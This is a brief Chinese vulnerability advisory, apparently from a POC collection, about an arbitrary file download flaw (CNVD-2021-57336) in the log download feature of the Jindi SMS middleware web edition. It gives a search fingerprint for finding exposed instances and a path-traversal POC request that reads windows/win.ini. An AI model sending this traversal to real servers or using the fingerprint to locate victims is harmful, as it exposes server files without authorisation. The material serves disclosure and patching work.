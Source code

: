 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## 网络测绘

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](images/202205251508287.png)

存在漏洞的位置为 日志下载

![](images/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](images/202205251508651.png)